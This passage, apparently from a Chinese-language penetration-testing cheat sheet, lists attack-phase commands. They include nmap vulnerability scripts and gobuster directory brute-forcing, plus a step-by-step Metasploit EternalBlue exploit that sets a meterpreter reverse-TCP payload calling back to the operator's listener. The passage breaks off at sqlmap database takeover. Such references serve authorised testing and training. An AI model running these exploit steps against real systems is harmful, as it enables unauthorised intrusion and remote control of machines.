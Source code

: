   * **工具**: `nmap` 脚本引擎 (NSE)
  * **目的**: 基于开放的服务自动检测已知的漏洞。
  * **语法**:
    ```bash
    # 运行一套广泛的漏洞脚本
    nmap -sV --script=vuln 目标IP

    # 专门检查 SMB 漏洞
    nmap -p 139,445 --script=smb-vuln* 目标IP
    ```
  * **战略背景**: 通过自动标记可利用的弱点，填补了枚举和漏洞利用之间的鸿沟。
* **指令 2.3：Web 目录与文件暴力破解**

  * **工具**: `gobuster`, `dirb`
  * **目的**: 在 Web 服务器上发现隐藏的目录、文件和 API 端点。
  * **语法**:

    ```bash
    gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak
    ```

    * `-u`: 目标 URL。
    * `-w`: 用于暴力破解的字典文件。
    * `-x`: 要附加的文件扩展名。
  * **战略背景**: 揭示未链接的内容、管理面板和敏感信息泄露（如 `config.php.bak`）。

---

### **阶段 3：获取访问权限 (初始入侵向量)**

利用已识别的漏洞执行代码，并在目标系统上建立立足点。

* **指令 3.1：Metasploit 框架**

  * **目的**: 一个用于管理和执行漏洞利用的综合框架。
  * **工作流程**:
    1. `msfconsole`: 启动框架。
    2. `search [漏洞或服务名称]`: 查找相关的漏洞利用模块 (例如 `search ms17-010`)。
    3. `use exploit/windows/smb/ms17_010_eternalblue`: 选择漏洞利用模块。
    4. `show options`: 显示所需参数。
    5. `set RHOSTS [目标IP]`: 设置远程主机（目标）。
    6. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`: 选择成功利用后要传送的载荷。反向 shell 通常是首选，以绕过防火墙。
    7. `set LHOST [你的VPN_IP]`: 设置本地主机（你的监听机器）。
    8. `exploit` 或 `run`: 执行攻击。
  * **战略背景**: 用于流线化漏洞利用的主要工具。其 Meterpreter 载荷提供了一个功能强大、可扩展的后渗透代理。
* **指令 3.2：自动化 SQL 注入与数据库接管**

  * **工具**: `sqlmap`
  * **目的**: 自动化检测和利用 SQL 注入漏洞。
  * **语法 (完全接管)**:
